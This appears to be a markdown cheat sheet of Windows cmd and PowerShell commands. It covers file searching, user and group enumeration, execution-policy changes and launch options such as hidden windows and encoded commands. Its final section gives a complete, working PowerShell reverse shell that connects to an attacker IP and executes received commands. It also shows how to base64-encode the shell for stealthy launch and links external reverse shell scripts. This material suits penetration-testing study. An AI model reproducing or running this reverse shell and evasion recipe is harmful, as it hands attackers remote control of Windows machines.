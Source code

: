 # Regular Cmd and Powershell commands

## Cmd

### Find and search files

Find:
```
dir /s *.txt
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
```
and search:
```
find "some string" somefile.txt
find """string in double quotes""" anotherfile.txt
find /i "case insensitive" file.txt
find /?
```
Count lines:
```
find /c /v "" file.txt
```

RegExp: 
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
- https://www.windows-commandline.com/findstr-command-examples-regular/
```
findstr pattern filename.txt
```

### Enumeration

```
net user
net localgroup
```

---

## Powershell

About `powershell.exe`: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1

### Options

Regular options:
- NoLogo
- NoProfile: no custom configuration
- NonInteractive
- ExecutionPolicy: bypass
- EncodedCommand: same as `-enc`
- WindowStyle: `hidden`

### Find files

```
Get-ChildItem -Recurse -Include *.txt -File -ErrorAction SilentlyContinue -Path 'C:\path\to\dir' 
```

### Change the execution policy

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Reverse shell

In a Powershell prompt, build the base64 string:
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("$AttackerIp",$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)
```
Usage: `powershell -enc base64_encoded_long_string`

Build the base64 string in Linux:
- https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py
- https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/powershell_powercat_encoding.py

References:
- https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/3ad91872713d60888dca95850c3f6e706231cb40/powershell_reverse_shell.ps1
- https://github.com/darkoperator/powershell_scripts/tree/master
